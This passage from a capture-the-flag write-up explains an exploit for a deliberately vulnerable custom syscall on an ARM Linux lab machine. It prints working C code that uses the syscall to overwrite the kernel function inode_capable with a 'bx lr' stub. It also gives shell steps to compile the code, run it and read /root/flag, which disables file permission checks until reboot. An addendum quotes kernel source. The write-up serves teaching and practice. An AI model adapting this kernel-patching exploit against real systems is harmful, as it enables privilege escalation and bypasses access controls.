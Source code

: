 To get the opcode bytes, I enabled `Link to binary` in the output options. `bx lr`
is `0xe12fff1e`. No `NULL` bytes, or even any bytes in the `0x61`-`0x7a` range (affected by
`sys_upper`), which means I could send the bytes as they are.

## Running the exploit

Now I just needed a small program to call the syscall and put my payload in its place:

```c
#include <unistd.h>

#define NR_SYS_UPPER (223)
#define INODE_CAPABLE_ADDRESS (0x80027cac) // cat /proc/kallsyms
#define ARM_BX_LR ("\x1e\xff\x2f\xe1") // Ends with a NULL byte (literal string)

int main(int argc, char* argv[])
{
    syscall(NR_SYS_UPPER, ARM_BX_LR, INODE_CAPABLE_ADDRESS);
    return 0;
}
```

Then all that was left is to compile it, run it, and get the flag:

```bash
/ $ cd /tmp # We're not allowed to write to `/`
/tmp $ vi exploit.c  # To write the file's contents
/tmp $ gcc exploit.c
/tmp $ ./a.out
/tmp $ cat /root/flag
```

> The machine now doesn't perform _any_ file permission checks until it's restarted again,
> but that's not our problem 😄

And we're done!

Thanks for reading,\
beje

---

## Addendum - How does the kernel actually implement file permission checks?

Remember `inode_owner_or_capable`?

```c
bool inode_owner_or_capable(const struct inode *inode)
{
    if (uid_eq(current_fsuid(), inode->i_uid))
        return true;
    if (inode_capable(inode, CAP_FOWNER))
        return true;
    return false;
}
```
